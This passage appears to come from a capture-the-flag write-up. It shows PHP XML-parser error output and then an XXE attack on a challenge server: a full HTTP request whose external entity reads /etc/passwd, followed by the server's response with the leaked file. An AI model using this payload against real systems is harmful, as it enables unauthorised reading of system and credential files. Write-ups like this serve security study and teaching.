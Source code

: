 ```
<br />
<b>Warning</b>:  simplexml_load_string(): Entity: line 1: parser error : StartTag: invalid element name in <b>/var/www/html/index.php</b> on line <b>18</b><br />
<br />
<b>Warning</b>:  simplexml_load_string(): &lt;&lt; in <b>/var/www/html/index.php</b> on line <b>18</b><br />
<br />
<b>Warning</b>:  simplexml_load_string():  ^ in <b>/var/www/html/index.php</b> on line <b>18</b><br />
<br />
<b>Warning</b>:  simplexml_load_string(): Entity: line 1: parser error : Extra content at the end of the document in <b>/var/www/html/index.php</b> on line <b>18</b><br />
<br />
<b>Warning</b>:  simplexml_load_string(): &lt;&lt; in <b>/var/www/html/index.php</b> on line <b>18</b><br />
<br />
<b>Warning</b>:  simplexml_load_string():  ^ in <b>/var/www/html/index.php</b> on line <b>18</b><br />
Your wish: 
```

The error messages in the request shows us the file with the code is located at '/var/www/html/index.php' and that it's using simplexml.

We try check for XXE(XML External Entity) and by trying retrieve /etc/passwd with the following request:
```
POST / HTTP/1.1
Host: 95.179.163.167:12001
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://95.179.163.167:12001/
Content-Type: application/xml
Content-Length: 125
Connection: close
Cookie: PHPSESSID=9cef815bea8ae2420273c0fbf61f3bcb

<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY internal SYSTEM 'file:///etc/passwd'>]>
<message>hello:&internal;</message>
```

And we get a reponse with the contents of the passwd file:
```
HTTP/1.1 200 OK
Server: nginx
Date: Fri, 14 Dec 2018 23:56:42 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
X-Powered-By: PHP/7.2.10
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
X-XSS-Protection: 1; mode=block
Content-Length: 1359

Your wish: hello:root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
```